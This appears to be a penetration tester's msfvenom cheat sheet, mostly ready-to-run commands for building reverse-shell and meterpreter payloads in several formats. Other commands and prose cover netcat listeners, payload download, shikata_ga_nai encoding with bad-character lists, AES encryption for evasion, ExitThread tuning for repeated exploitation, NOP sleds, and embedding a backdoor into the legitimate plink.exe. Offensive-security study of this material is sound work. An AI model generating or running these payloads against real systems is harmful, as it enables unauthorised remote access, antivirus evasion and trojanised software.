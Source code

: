 ### Msfvenom
msfvenom --list encrypt  
msfvenom --list encoders  
msfvenom --list payloads  
msfvenom --list platforms  
msfvenom --list formats  

msfvenom -p linux/x86/shell_reverse_tcp --list-options  

msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f elf > shell.elf && nc -lvnp 443 && python -c 'import pty;pty.spawn("/bin/bash")'; && export TERM=xterm  

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f exe > windows_reverse.exe && powershell && Invoke-WebRequest -Uri http://192.168.48.2/windows_reverse.exe -OutFile windows_reverse.exe && nc -lvnp 443  

msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.119.190 LPORT=443 -f py -v shellcode -e x86/shikata_ga_nai -b "\x00\x0a\x1a\x2f\x95\xa7"  

msfvenom -a x86 -p windows/exec cmd=cmd.exe -e x86/shikata_ga_nai -f c -n 10 -b "\x00\x0a\x0d"(non-network-based command execution payloads)(it has service handles the string to raw bytes conversion)  

msfvenom -a x86 -p windows/exec cmd=cmd.exe -e x86/shikata_ga_nai -f raw -n 10 -b "\x00\x0a\x0d"(non-network-based command execution payloads)(it has no service handles the string to raw bytes conversion)  

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 --encrypt aes256 --encrypt-key fdgdgj93jf43uj983uf498f43 -f exe -o /var/www/html/met64_aes.exe  

Linux：
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

Windows:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

PHP:
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

JSP:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

Python:
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

Bash:
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

Perl:
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl

### Improving the Exploit
```
The default exit method of Metasploit shellcode following its execution is the ExitProcess API. This exit method will shut down the whole web service process when the reverse shell is terminated, effectively killing the SyncBreeze service and causing it to crash.

If the program we are exploiting is a threaded application, and in this case it is, we can try to avoid crashing the service completely by using the ExitThread API instead, which will only terminate the affected thread of the program. This will make our exploit work without interrupting the usual operation of the SyncBreeze server, and will allow us to repeatedly exploit the server and exit the shell without bringing down the service.

To instruct msfvenom to use the ExitThread method during shellcode generation, we can use the EXITFUNC=thread option as shown in the command below:
```

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread(this parameter can't be put behind all other parameters-tested) -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"  

### staged vs stageless
```
windows/shell_reverse_tcp - Connect back to attacker and spawn a command shell
windows/shell/reverse_tcp - Connect back to attacker, Spawn cmd shell (staged)

Staged payloads begin the execution process with a small portion of the code that doesn't contain the full payload.Instead, it initiates the payload download from the attacking host after it begins execution. 

The benefit of a staged payload is that the size of the file is smaller. This may help with upload limitations on a target host. We will not be working with staged payloads, since that would require us to work with Metasploit.Payloads separated by an underscore (_) are stageless payloads.

Stageless payloads contain the full payload from MSFvenom and do not require any additional resources from the attacker after initial execution. These payloads are larger when they are produced but often don't require the use of Metasploit to obtain shell access.
```

### NOP sled(verified less than 5 nops will reach page fault,as long as >=5, it is fine)
```
As with other GetPC routines, those used by shikata_ga_nai have an unfortunate side-effect of writing some data at and around the top of the stack. 
This eventually mangles at least a couple of bytes close to the address pointed at by the ESP register. Unfortunately, this small change on the stack is a problem for us because the decoder starts exactly at the address pointed to by the ESP register. 
In short, the GetPC routine execution ends up changing a few bytes of the decoder itself (and potentially the encoded shellcode), which eventually fails the decoding process and crashes the target process.
One method to avoid this issue is to adjust ESP backwards, making use of assembly instructions such as DEC ESP, SUB ESP, 0xXX, before executing the decoder. Alternatively, we could create a wide "landing pad" for our JMP ESP, such that when execution lands anywhere on this pad, it will continue on to our payload. 
This may sound complicated, but we simply precede our payload with a series of No Operation (or NOP) instructions, which have an opcode value of 0x90. As the name suggests, these instructions do nothing, and simply pass execution to the next instruction. 
Used in this way, these instructions, also defined as a NOP sled or NOP slide, will let the CPU "slide" through the NOPs until the payload is reached.In both cases, by the time the execution reaches the shellcode decoder, the stack pointer points far enough away from it so as to not corrupt the shellcode when the GetPC routine overwrites a few bytes on the stack.
```
### inject a payload into an existing PE file
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.2 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```
